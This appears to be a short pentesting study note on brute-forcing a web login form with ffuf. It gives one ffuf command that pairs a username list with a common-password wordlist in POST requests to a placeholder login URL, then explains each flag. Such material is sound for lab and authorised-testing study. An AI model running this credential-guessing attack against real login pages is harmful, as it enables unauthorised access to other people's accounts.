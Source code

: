 <h3>bruteforcing with ffuf</h3>

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X  POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u <link/to/login/page> -fc 200
```

-w path to wordlist
-X HTTP request
-d data to be sent
-H content header
-u url to login page
-fc HTTP status (200 OK)